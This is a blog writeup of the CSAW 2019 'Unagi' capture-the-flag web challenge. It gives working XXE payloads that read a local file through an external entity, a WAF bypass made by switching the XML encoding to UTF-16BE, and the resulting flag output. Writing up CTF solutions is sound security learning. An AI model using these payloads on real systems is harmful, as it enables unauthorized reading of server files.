 ```yaml
---
title: "CSAW 2019: Unagi"
date: 2020-05-21T01:22:16-06:00
draft: false
comments: false
tags: ["writeups", "web", "xxe"]
cover: "img/unagi.png"
images: ["img/unagi.png"]
---
```


Back in 2019 I really got into CTFs as a matter of honing my security skills. They were fun to do and enriched my knowledge of cybersecurity - so I got into it pretty quickly.

This was among the first of the challenges I did while under my team, Maple Bacon. At the time, I had plenty experience with SQL injections and XSS attacks, but not nearly enough experience with another common vulnerability: XXE attacks. CSAW 2019 sought to change that.

Let's Begin!
----

_Note: Unfortunately, I do not have screenshots as I partcipated in this CTF long before I realized I wanted to document my progress with them._

The challenge was called "Unagi". Several options were shown: ```home```, ```users```, ```about``` and ```upload```. ```about``` simply said ```flag is at /flag.txt, come get it``` 

It was a website with users Alice and Bob displayed, with their emails, group, and intro. There was an `upload` endpoint that allowed you to upload XML documents to create a new user. And they also had a sample xml file, how nice! 

```
name: Alice
email: alice@fakesite.com
group: CSAW2019
intro: Alice is cool

name: Bob
email: bob@fakesite.com
group: CSAW2019
intro: Bob is cool too
```

```xml
<?xml version='1.0'?>
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
</users>
```

This challenge has taught me one thing: where there is XML, there is XXE injection. Researching for hours about XML vulnerabilities all point to XXE injections being **the** attack to do, so I crafted a pretty classic XXE payload and put it in my file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

But the WAF will reject the file. I sort of just... aimlessly searched the internet for a fix, dismayed to find a bunch of php workarounds, as this was during a time where I definitely wasn't confident with my skills in php, and so I sort of stagnated at this point...

...Until I got curious about the encoding declaration. Standardly, encodings are UTF-8 around the board, but encoding UTF-16 exists - and what would happen if I changed the XML encoding from UTF-8 to UTF-16? This led me down to researching about using [different encodings to bypass WAF filters](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0/):

>An XML document can be encoded not only in UTF-8, but also in UTF-16 (two variants — BE and LE), in UTF-32 (four variants — BE, LE, 2143, 3412), and in EBCDIC...

>...Exotic encodings may also be used to bypass diligent WAFs as they are not always able to process all the encodings listed above. For instance, the libxml2 parser only supports one type of UTF-32 — UTF-32BE, specifically without BOM.

For this issue in particular, UTF-8 and UTF-16 differ in their ways of encoding a sequence of chars. UTF-8's character encodings are 1-4 bytes, while UTF-16's are 2-4. What this challenge's WAF does is look at the byte encoding of a character and match it with whatever blacklist it has. But naturally, UTF-8's character encodings are going to be vastly different from UTF-16's, since there is at least 1 byte of a difference. So when the WAF looks at UTF-16 encodings, it won't be able to detect the malicious characters that is differently encoded in 2 bytes, and assumes the file is clean.

```xml
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

UTF-16 encoding does bypass the WAF but when the flag.txt file is loaded...

```
name: Jam
email: jam@jelly.com
group: AAAAAAAAAAAAAAAAAAAA
```

It's cut off, probably cause the "group" field has a character limit. But interestingly enough, the xml sample file doesn't specify a field we saw before - ```intro```. Could we just put our xxe attack in there?

```xml
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>Fruit Preservatives</group>
        <intro>&xxe;</intro>
    </user>
</users>
```
It works!

```
name: Jam
email: jam@jelly.com
group: Fruit Preservatives
intro: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

----

Looking back at CSAW 2019 now, it's almost obvious that the attack vector here was an XXE. Of course, being young and somewhat new to the collective CTF scene I wouldn't have figured this out from the get-go. It feels nice to know that I have grown and evolved as a CTF hacker, and I will continue to do so. Each CTF I participate in teaches me something new, and I will continue to grow and evolve as I participate in more CTFs. Hopefully if anyone reads this and feels uncertain about how much they don't know, spin it around and see it as an oppurtunity of how much you can learn :) Anyway, this was a quick writeup I did based on my year-old notes on this challenge, so I apologize for the lack of screenshots and otherwise simple presentation of it. This coming weekend, I will be participating in a few different CTFs, so expect more writeups to come soon!


Jam

---
References

Cover Image: [Isabella Mendes](https://www.pexels.com/@isabella-mendes-107313) on Pexels